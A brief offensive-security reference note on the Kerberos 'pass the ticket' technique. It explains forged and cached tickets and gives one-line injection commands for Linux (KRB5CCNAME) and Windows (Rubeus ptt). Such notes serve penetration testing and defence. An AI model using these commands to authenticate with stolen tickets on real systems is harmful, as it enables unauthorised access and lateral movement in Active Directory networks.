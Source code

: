 # pass the ticket

## Overview

There are ways to come across (cached Kerberos tickets) or forge (overpass the hash, silver ticket and golden ticket attacks) Kerberos tickets. A ticket can then be used to authenticate to a system using Kerberos without knowing any password. This is called Pass the ticket. 


## Injecting the tickets

### Linux

```
    export KRB5CCNAME=$path_to_ticket.ccache
```


### Windows - Rubeus

```
    Rubeus.exe ptt /ticket:"base64 | file.kirbi"
```


## More Information

https://www.thehacker.recipes/ad/movement/kerberos/ptt#pass-the-ticket